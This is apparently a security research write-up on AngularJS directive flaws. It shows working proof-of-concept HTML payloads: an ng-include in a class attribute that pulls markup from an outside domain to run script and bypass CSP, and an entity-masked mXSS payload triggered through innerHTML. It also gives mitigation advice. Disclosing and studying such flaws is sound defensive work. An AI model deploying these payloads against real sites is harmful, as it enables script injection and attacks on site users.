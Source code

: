 ## HTML Imports ##

AngularJS supports a directive that emulates the dreaded HTML imports. That means, we can request a piece of markup from the same domain (or across domains if the attacker has CORS enabled) and have the framework merge the resulting data into our DOM.

This enables another very interesting way to execute arbitrary JavaScript using `class` attributes - even with latest AngularJS.

```
<html ng-app>
<head>
	<meta charset="utf-8">
	<script src="https://ajax.googleapis.com/ajax/libs/angularjs/1.2.3/angular.min.js"></script>
</head>
<body>
	<span class="ng-include:'//ø.pw'"></span>
</body>
```

In no way should a `class` attribute ever be able to execute arbitrary JavaScript. This issue currently seems to be the most risky part of AngularJS' directives. It further enables yet another CSP bypass in combination with a GIF file:

Demo: http://html5sec.org/cspbypass/

Mitigation advice: AngularJS has a well working HTML sanitizer. Use it before attaching the fetched markup to the DOM.

## mXSS via HTML Import ##

AngularJS has the habit of using `document.createComment()` for several directives. It for example creates a comment as soon as an include has taken place and tells the DOM "hey, here's the comment telling everyone that I just included stuff". While there's certainly a great, super-heroic reason for that, there's also an interesting vulnerability hidden beneath.

This time it's an mXSS problem that can emerge, in case the attacker is able to minimally influence fragments of the include path via `location.hash` or alike:

```
<!doctype html>
<html ng-app>
<head>
<script src="https://ajax.googleapis.com/ajax/libs/angularjs/1.2.6/angular.min.js"></script>
</head>
<body>
<b class="ng-include:'somefile?--&gt;&lt;svg&sol;onload=alert&lpar;1&rpar;&gt;'">HELLO</b>
<button onclick="body.innerHTML+=1">do the mXSS thing</button>
</body>
```

Two things happen here: The include takes place (404 or not, doesn't matter) and AngularJS writes the comment into the DOM. Then, we have an `innerHTML`-access. This re-writes the markup and thereby activates the XSS hidden within the HTML comment. Note that we use HTML entities to mask our payload - yet it still works.
